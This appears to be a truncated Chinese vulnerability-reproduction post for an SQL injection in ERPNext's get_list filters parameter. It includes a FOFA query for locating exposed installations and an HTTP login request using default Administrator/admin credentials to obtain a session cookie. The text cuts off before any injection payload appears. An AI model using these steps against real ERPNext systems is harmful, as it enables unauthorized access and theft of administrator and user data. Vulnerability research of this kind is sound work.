


# ERPNext SQL 注入漏洞复现

### 0x01 产品简介

 ERPNext 是一套开源的企业资源计划系统。

### 0x02 漏洞概述

 ERPNext 系统frappe.model.db\_query.get\_list 文件 filters 参数存在 SQL 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

FOFA：app="ERPNext"



### 0x04 漏洞复现 

获取有效cookie

```cobol
POST / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 52

cmd=login&usr=Administrator&pwd=admin&device=desktop
```



尝试注
